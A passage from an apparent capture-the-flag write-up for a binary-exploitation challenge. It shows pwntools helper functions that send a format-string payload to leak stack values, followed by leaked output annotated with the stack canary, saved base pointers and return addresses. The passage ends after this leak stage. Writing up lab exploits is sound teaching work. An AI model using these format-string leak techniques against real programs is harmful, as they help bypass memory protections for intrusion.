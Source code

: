 first of all I declared some utility function to easily interface with the software.

```python
def leak_at( offset):
    p.recvuntil('> ')       
    p.sendline('1')         
    p.recvuntil('> ')       
    p.sendline(f'%{offset}$p')   
    p.recvuntil('is: ')     
    leak = p.recvuntil('\n')
    return str(leak).strip("b'").strip("\\n'").strip("[1;31m").strip("\\x1b")

def drop_pie(n):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('(y/n)')
    p.sendline('y')
    p.recvuntil('> ')
    p.sendline(str(n))
    return

def stare(payload):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('> ')
    p.send(payload)
```

then we need to leak the stack in order to have ana idea of how the stack is arranged:

```bash
for i in range(1,26):
    log.info(f'leak at {i} '+leak_at(i))
```

```bash
[*] leak at 1 (nil)
[*] leak at 2 (nil)
[*] leak at 3 0x7f01ebfa3c0a
[*] leak at 4 0x20
[*] leak at 5 0x7
[*] leak at 6 0xa70243625
[*] leak at 7 (nil)
[*] leak at 8 (nil)
[*] leak at 9 (nil)
[*] leak at 10 0x7ffd2c675200
[*] leak at 11 0xa0f4472e6be62a00 ##### CANARY
[*] leak at 12 0x7ffd2c675200 ######### SAVED EBP
[*] leak at 13 0x562d7d400eca ######### RET TO HERVEST
[*] leak at 14 0x100000020
[*] leak at 15 0xa0f4472e6be62a00 ##### CANARY
[*] leak at 16 0x7ffd2c675220 ######### SAVED EBP
[*] leak at 17 0x562d7d400fd8 ######### RET TO MAIN
[*] leak at 18 0x7ffd2c675310
[*] leak at 19 0xa0f4472e6be62a00 ##### CANARY
[*] leak at 20 0x562d7d401000 ######### SAVED EBP
[*] leak at 21 0x7f01ebf04d0a ######### RET TO __LIBC_START_MAIN
[*] leak at 22 0x7ffd2c675318
[*] leak at 23 0x100000000
[*] leak at 24 0x562d7d400f90
[*] leak at 25 0x7f01ebf047cf
```
